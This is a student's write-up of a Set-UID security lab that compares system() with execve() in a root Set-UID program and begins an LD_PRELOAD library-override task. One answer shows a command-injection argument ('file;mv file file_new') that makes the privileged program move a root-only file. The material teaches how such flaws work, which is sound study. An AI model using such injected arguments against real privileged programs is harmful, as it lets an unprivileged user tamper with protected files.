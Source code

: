 (a) Set q = 0 in the program. This way, the program will use `system()` to invoke the command. Is this program safe? If you were Bob, can you compromise the integrity of the system? For example, can you remove any file that is not writable to you?
```sh
seed@ubuntu:/bin$ ls -al /bin/sh
lrwxrwxrwx 1 root root 3 Aug  8 04:15 /bin/sh -> zsh
seed@ubuntu:/bin$ cd /tmp/
seed@ubuntu:/tmp$ sudo su
root@ubuntu:/tmp# gcc -o SEC SEC.c 
root@ubuntu:/tmp# chmod u+s SEC
root@ubuntu:/tmp# exit
exit
seed@ubuntu:/tmp$ ls -al file SEC
-rwx------ 1 root root    0 Aug  8 04:25 file
-rwsr-xr-x 1 root root 7310 Aug  8 04:23 SEC
seed@ubuntu:/tmp$ ./SEC "file;mv file file_new"
This file only root can read, write and move!!!
seed@ubuntu:/tmp$ ls file*
file_new
```
The `SEC` file is not safe, Bob can read, write or move files which only root user can run.

(b) Set q = 1 in the program. This way, the program will use `execve()` to invoke the command. Do your attacks in task (a) still work? Please describe and explain your observations.
```sh
root@ubuntu:/tmp# gcc -o SEC2 SEC.c 
root@ubuntu:/tmp# chmod u+s SEC2 
root@ubuntu:/tmp# exit
exit
seed@ubuntu:/tmp$ ./SEC2 "file;mv file file_new2"
/bin/cat: file;mv file file_new2: No such file or directory
seed@ubuntu:/tmp$ ls file*
file
```
When modify q to 1, the attack can't make sense. The reason why the before attack effectively is because`system()` call `/bin/sh`, which links `zsh`. After running `cat file` with root privilege, it runs `mv file file_new`. But when q = 1, `execve()` will regard `file;mv file file_new2` as a folder name, so system will prompt there have no the file.


6.. The LD_PRELOAD environment variable.
To make sure Set-UID programs are safe from the manipulation of the `LD_PRELOAD` environment variable, the runtime linker (`ld.so`) will ignore this environment variable if the program is a Set-UID root program, except for some conditions. We will figure out what these conditions are in this task.

(a) Let us buid a dynamic link library. Create the following program, and name it `mylib.c`. It basically overrides the `sleep()` function in `libc`:
```c
#include <stdio.h>
void sleep (int s)
{
    printf("I am not sleeping!\n");
}
```
(b) We can compile the above program using the following commands (in the -Wl argument, the third character is l, not one; in the -lc argument, the second character is l):
```sh
gcc -fPIC -g -c mylib.c

gcc -shared -Wl,-soname,libmylib.so.1 \
-o libmylib.so.1.0.1 mylib.o –lc
```
(c) Now, set the LD_PRELOAD environment variable:
```sh
% export LD_PRELOAD=./libmylib.so.1.0.1
```